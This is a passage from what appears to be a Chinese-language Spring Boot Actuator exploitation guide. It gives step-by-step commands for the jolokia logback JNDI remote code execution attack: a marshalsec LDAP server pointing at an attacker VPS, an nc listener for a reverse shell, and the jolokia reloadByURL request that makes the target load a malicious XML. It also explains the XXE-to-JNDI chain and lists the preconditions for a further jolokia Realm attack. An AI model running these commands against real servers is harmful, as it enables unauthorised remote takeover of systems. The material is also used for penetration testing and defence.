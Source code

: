 下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

##### 步骤六：从外部 URL 地址加载日志配置文件

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```url
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```

#### 漏洞原理

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

#### 漏洞分析

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

#### 漏洞环境

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```url
http://127.0.0.1:9094/env
```

### 0x05：jolokia Realm JNDI RCE

#### 利用条件

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121(RMI)，但相关环境可绕过
